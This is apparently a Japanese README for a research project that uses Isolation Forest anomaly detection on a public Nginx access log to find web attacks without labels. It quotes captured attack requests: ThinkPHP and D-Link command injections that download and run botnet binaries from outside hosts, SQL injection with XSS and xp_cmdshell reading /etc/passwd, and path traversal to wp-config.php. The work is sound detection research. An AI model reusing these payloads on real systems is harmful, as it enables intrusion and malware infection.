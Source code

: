 # Walu(Web Application Log Unveiler)

https://www.scutum.jp/information/waf_tech_blog/2021/01/waf-blog-077.html
 
　上記Blog（WAF Tech Blog）から自分なりに調査した結果のメモ。

　ラベル付け無しに攻撃を検知したい。そのためには正常系から離れたデータ、つまり「外れ値」を攻撃と定義して、異常検知アルゴリズムを用いる。上記blogではIsolation forestを使用。データセットは[Harvard Dataverse](https://dataverse.harvard.edu/dataset.xhtml?persistentId=doi:10.7910/DVN/3QBYB5)にあるAccess.log.zip。イラン実在のショッピングサイトにおける2019年1月からの数日間のアクセスログをNginxにより取得。1036万行（3.3GB）。

　上記blogと同条件で取り出したデータから、ランダムに抽出した10000件のデータを2次元にマッピング（画像1）。データセットを調査するとScale-freeしている。[ipynb/viz01.ipynb](ipynb/viz01.ipynb) [[mybinder.org](https://mybinder.org/v2/gh/kenjiaiko/Walu/main?filepath=ipynb%2Fviz01.ipynb)]

<img src="ipynb/t-SNE10000.jpg" width="300">（画像1）

　異常検知において正常系と判断されるのは大きなクラスタ、よって小さいクラスタ群が外れ値となる。データセットがScale-freeしているため外れ値となったクラスタ群を集めて再度Isolation forestを適用すれば、さらなる外れ値が算出される。スコアの閾値を0.25にし、2回Isolation forestを適用すると

```
$ ./run.sh 2 0.25
```

```
$ head -n 2 data/result_by_ip.txt
0.186 185.222.202.118 - - [22/Jan/2019:09:15:46 +0330] "GET /public/index.php?s=/index/%5Cthink%5Capp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]=cd%20/tmp;wget%20http://185.222.202.118/bins/rift.x86;cat%20rift.x86%20%3E%20efjins;chmod%20777%20efjins;./efjins%20thinkphp HTTP/1.1" 301 178 "-" "python-requests/2.4.3 CPython/2.7.9 Linux/3.16.0-4-amd64" "-"
0.188 62.210.157.10 - - [25/Jan/2019:21:20:36 +0330] "GET /wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php HTTP/1.1" 301 178 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0" "-"
```

　1,2行目に明確な攻撃がくる。61,62行目にはSELECT,UNIONを含んだもの。

```
0.261 176.121.14.183 - - [25/Jan/2019:12:07:57 +0330] "GET /image/29000?name=6aba3c.jpg&amp%3Bwh=200x200&HMCj%3D1300%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1" 200 1035 "-" "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9b4) Gecko/2008031317 Firefox/3.0b4" "-"
0.261 5.101.40.234 - - [23/Jan/2019:06:53:01 +0330] "GET /image/{{basketItem.id}}?type=productModel&wh=50x50&fhnz%3D1551%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1" 301 178 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.24 (KHTML, like Gecko) Chrome/11.0.696.3 Safari/534.24" "-"
```

　次に専門家による特徴選択をしないケース。例えば特定の文字（Char）のCountのみを特徴とする場合。

```
$ python printspchars.py > features.txt
$ ./run.sh 2 0.30
```

　先頭から怪しいアクセスは続くが、明確なのは11行目以降。
 
```
0.204 108.61.86.94 - - [24/Jan/2019:13:08:01 +0330] "GET /login.cgi?cli=aa%20aa%27;wget%20http://108.61.86.94/bins/Solstice.mips%20-O%20->%20/tmp/.Solstice;chmod%20777%20/tmp/.Solstice;/tmp/.Solstice%20dlink%27$ HTTP/1.1" 400 166 "-" "Solstice/2.0" "-"
```

　それなりには攻撃アクセスが上位（低いスコア）になっている。ただし、先ほど2行目にあったアクセスは、こちらでは107行目：スコア0.344とかなり遅い登場。

```
0.344 62.210.157.10 - - [25/Jan/2019:21:20:36 +0330] "GET /wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php HTTP/1.1" 301 178 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0" "-"
```

　当然、専門家が特徴を設定した方が良いが、適当な特徴でもそれなりに（分析には差し障りない程度に）良い結果が得られるようである。

### ラベル付け

- 上記BlogではJavaで書かれているが、それとほぼ同様のpythonコード。[ipynb/viz02.ipynb](ipynb/viz02.ipynb)
- ラベルのない1036万行のデータに対してIsolation forestを繰り返す。
- IPごとにもっともScoreの高いアクセスを抽出。742行。[ipynb/result_by_ip.txt](ipynb/result_by_ip.txt)
- 742行を人間が確認。

　全ての外れ値が真に攻撃であるならこれでOKなのだが、当然そうではないので、ここからは人間が確認していく。[ipynb/result_by_ip.txt](ipynb/result_by_ip.txt)の最初の29行ほどは/rapidGrails/jsonListリクエストが続く。まぁ攻撃ではないだろう。そして30行目に明確な攻撃が見つかる。
 
 ```
-0.7341514235140854 202.70.250.38 - - [24/Jan/2019:15:58:56 +0330] GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://185.255.25.168/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1\x00 400 166 - - -
```

　最初のパターンはindex.phpに対してshell_exec, wgetをするもの。他にも複数見つかる（32-50行目）。これをpattern1とする。続いて51行目。

```
-0.7335728824690786 176.121.14.183 - - [25/Jan/2019:12:07:57 +0330] GET /image/29000?name=6aba3c.jpg&amp%3Bwh=200x200&HMCj%3D1300%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1 200 1035 - Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9b4) Gecko/2008031317 Firefox/3.0b4 -
```

　UNION, SELECT, script, alertが入ったもの。明らかに攻撃を意図したアクセス。これをpattern2。その後pattern1が続き、126行目に再びpattern2が出てくる。そして206行目。

```
-0.6859619404158754 151.25.29.64 - - [22/Jan/2019:05:55:47 +0330] GET /login.cgi?cli=aa%20aa%27;wget%20http://217.61.5.226/bins/Solstice.mips%20-O%20->%20/tmp/.Solstice;chmod%20777%20/tmp/.Solstice;/tmp/.Solstice%20dlink%27$ HTTP/1.1 400 166 - Solstice/2.0 -
```

　login.cgi, wgetが入ったもの。これをpattern3。

```
-0.6626657948031308 37.137.14.150 - - [22/Jan/2019:16:09:03 +0330] GET /m/product/33487/64141/%D8%AC%D8%A7%D8%B1%D9%88%D8%A8%D8%B1%D9%82%DB%8C-%D8%A8%D8%A7-%D9%BE%D8%A7%DA%A9%D8%AA-%D8%A8%D9%88%D8%B4-%D9%85%D8%AF%D9%84-BGL8PRO5IR%22%3E%3Cdiv%20class%3D%22kharid-khoob%22style%3D%22background-image%3A%20url%28%2FdiscountLabel%2Fget%2F3?utm_content=2005&utm_medium=26&utm_campaign=GPB&utm_term=209&type=desktopSmallIcon%29%3Bwidth%3A75px%3Bheight%3A77px%3B%3Futm_source%3D6 HTTP/1.1 404 211 https://www.garda.ir/%D9%84%D9%88%D8%A7%D8%B2%D9%85-%D8%AE%D8%A7%D9%86%DA%AF%DB%8C-%D9%88-%D8%A2%D8%B4%D9%BE%D8%B2%D8%AE%D8%A7%D9%86%D9%87/%D8%AC%D8%A7%D8%B1%D9%88-%D8%A8%D8%B1%D9%82%DB%8C/%D8%AC%D8%A7%D8%B1%D9%88-%D8%A8%D8%B1%D9%82%DB%8C-%D8%A8%D9%88%D8%B4/%D8%AC%D8%A7%D8%B1%D9%88%D8%A8%D8%B1%D9%82%DB%8C-%D8%A8%D8%A7-%D9%BE%D8%A7%DA%A9%D8%AA-%D8%A8%D9%88%D8%B4-%D9%85%D8%AF%D9%84-BGL8PRO5IR-214503 Mozilla/5.0 (iPhone; CPU iPhone OS 9_3_5 like Mac OS X) AppleWebKit/601.1.46 (KHTML, like Gecko) Version/9.0 Mobile/13G36 Safari/601.1 -
```

```
-0.6582348010972741 2.183.9.23 - - [23/Jan/2019:10:36:16 +0330] GET /image/29/productTypeTy%3C/div%3E%3Cstyle%3E.notFoundList%20%7Bdisplay:%20block;padding-top:%2010px;%7D.notFoundList%20li%20%7Blist-style:%20none;display:%20inline-block;margin:%205px;%7D.notFoundList%20a%20%7Blist-style:%20none;background:%20 HTTP/1.1 200 11 https://www.zanbil.ir/filter/b136,b261,b74,p5 Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36 -
```

　230行目、/m/product/にdivタグを入れたもの。pattern4。242行目、/divタグで閉じたもの。pattern4亜種。

```
-0.6057850284293474 62.210.157.10 - - [25/Jan/2019:21:20:36 +0330] GET /wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php HTTP/1.1 301 178 - Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0 -
```

```
-0.5928439132758191 104.249.46.47 - - [26/Jan/2019:18:30:49 +0330] GET /image/27458?name=...............1.jpg&wh=200x200 HTTP/1.1 200 5937 - Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko -
```

　304行目、../wp-config.php。pattern5。315行目、name=....jpg。（攻撃じゃないが）一応pattern5亜種。

　以上が攻撃アクセス。あとはpattern1-5を検知するルールを作れば良い。
